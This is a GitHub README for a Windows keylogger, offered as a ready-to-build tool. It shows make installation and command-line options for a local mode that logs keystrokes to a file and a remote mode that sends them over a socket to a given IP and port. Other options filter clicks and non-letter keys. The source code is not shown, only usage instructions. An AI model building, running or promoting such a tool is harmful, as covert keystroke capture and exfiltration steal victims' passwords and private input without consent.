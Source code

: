 [![Codacy Badge](https://api.codacy.com/project/badge/Grade/bdc8da5ad85e41e9a17f59f6886b44a1)](https://www.codacy.com/manual/Harkame/Keylogger?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=Harkame/Keylogger&amp;utm_campaign=Badge_Grade)
[![Maintainability](https://api.codeclimate.com/v1/badges/b64990488d63bf69de10/maintainability)](https://codeclimate.com/github/Harkame/Keylogger/maintainability)

# Keylogger

## Installation

``` bash

make

```
## Dependencies

-   Windows

## Usage

This program propose 2 type of keylogger

## Parameters/Options

### [REQUIERED] Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination_file)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

### [OPTIONAL]

        -b | --buffer_size : Buffer size before store data (file or socket) (DEFAULT : 50)
                Example : ./bin/main.exe ... -b 100

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --storage_format_character : Default storage format is int, use this option if you want to store as character
                Example : ./bin/main.exe ... -C

        -h | --help : Show this help
                Example : ./bin/main.exe -h

